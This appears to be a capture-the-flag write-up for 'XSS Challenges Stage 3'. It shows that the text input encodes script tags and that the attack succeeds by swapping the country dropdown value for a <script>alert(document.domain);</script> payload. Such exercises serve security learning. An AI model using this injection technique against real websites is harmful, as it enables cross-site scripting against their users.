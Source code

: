 # **XSS Challenges Stage 3**

![](https://i.imgur.com/G7nARMz.png)

```
<hr class=red>We couldn't find any places called <b>"123"</b> in <b>Japan</b>.<hr class=red>
```

Is that the same to Stage 1?

![](https://i.imgur.com/CXgUxrV.png)

```
<hr class=red>We couldn't find any places called <b>"&lt;script&gt;alert(document.domain);&lt;/script&gt;"</b> in <b>Japan</b>.<hr class=red>
```

Well, Of course not.

How about input box?

```
Search a place: <input size="30" type="text" name="p1">
```

![](https://i.imgur.com/TS0TVTb.png)

Cuz to `type = "text"` in ```Search a place: <input size="30" type="text" name="p1">```.

All the Symbols get HTML coded.
```
<b>"&gt;&lt;script&gt;alert(document.domain);&lt;/script"</b>
```

Failed.

The last one, let's try to modify the dropdowns.

![](https://i.imgur.com/7sBVgyS.png)

Change `Japan` to `<script>alert(document.domain);</script>`, also remenber to insert something in forst input box, otherwise it will not correctly execute.

![](https://i.imgur.com/DaiKsgQ.png)

